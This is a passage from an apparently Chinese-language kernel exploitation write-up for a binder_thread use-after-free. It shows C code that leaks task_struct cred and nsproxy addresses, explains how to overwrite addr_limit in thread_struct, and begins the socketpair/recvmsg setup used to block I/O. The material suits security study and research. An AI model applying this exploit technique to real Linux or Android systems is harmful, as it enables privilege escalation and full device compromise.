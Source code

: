 ```c
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
```

接着就是从管道读取binder_thread的剩余内容，从而泄露出task_struct的地址

### 修改addr_limit

在x86的task_struct中存在thread_struct  x86的addr_limit是放在thread_struct的

```c
struct task_struct {
...
	struct thread_struct		thread;

	/*
	 * WARNING: on x86, 'thread_struct' contains a variable-sized
	 * structure.  It *MUST* be at the end of 'task_struct'.
	 *
	 * Do not put anything below here!
	 */
};
```

```c
struct thread_struct {
	...

	mm_segment_t		addr_limit;

	unsigned int		sig_on_uaccess_err:1;
	unsigned int		uaccess_err:1;	/* uaccess failed */

	/* Floating point and extended processor state */
	struct fpu		fpu;
	/*
	 * WARNING: 'fpu' is dynamically-sized.  It *MUST* be at
	 * the end.
	 */
};
```

而在thread_struct中有addr_limit,因而我们可以根据addr_limit在task_struct的偏移来修改addr_limit,同样用泄露task_struct的方法来写入addr_limit，但是io的堵塞 readv做不到，得换成recvmsg sendmsg socket，来堵塞io

接着来说明步骤如何patch掉addr_limit

```c

    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }
```